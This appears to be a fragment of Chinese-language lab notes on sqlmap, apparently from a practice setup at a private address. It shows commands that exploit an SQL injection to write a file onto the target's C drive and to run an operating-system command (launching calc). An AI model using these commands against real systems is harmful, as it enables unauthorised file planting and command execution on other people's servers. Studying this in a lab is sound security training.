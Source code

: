 ##### 写入文件

将D盘中的123.txt写入到对方的C盘中123.txt中

```
python sqlmap.py -u http://192.168.100.2/sqli2/new.php?id=1 --file-write "d:\\123.txt" --file-dest "c:\\123.txt"
```

这里把数据库的信息也写进入了，不知道什么原因

![image-20240412115122693](../图片/image-20240412115122693.png)



##### 执行单条命令

```
python sqlmap.py -u http://192.168.100.2/sqli2/new.php?id=1  --os-cmd=calc
```
